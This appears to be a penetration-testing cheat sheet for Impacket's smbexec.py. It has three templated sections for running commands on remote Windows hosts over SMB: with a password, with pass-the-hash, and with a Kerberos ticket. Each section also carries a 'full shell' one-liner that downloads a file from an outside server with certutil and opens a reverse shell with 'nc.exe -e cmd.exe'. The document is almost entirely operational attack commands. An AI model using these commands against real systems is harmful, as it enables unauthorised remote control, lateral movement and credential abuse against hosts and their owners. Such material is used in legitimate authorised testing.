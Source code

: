 # smbexec (imp)

%  windows, impacket-exec, smb


## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
smbexec.py -shell-type powershell '<domain_fqdn>/<user>:<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
smbexec.py -shell-type powershell -hashes :<nt_hash> <domain_fqdn>/<user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
export KRB5CCNAME=<ccache>; smbexec.py -shell-type powershell -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <target_name>
```
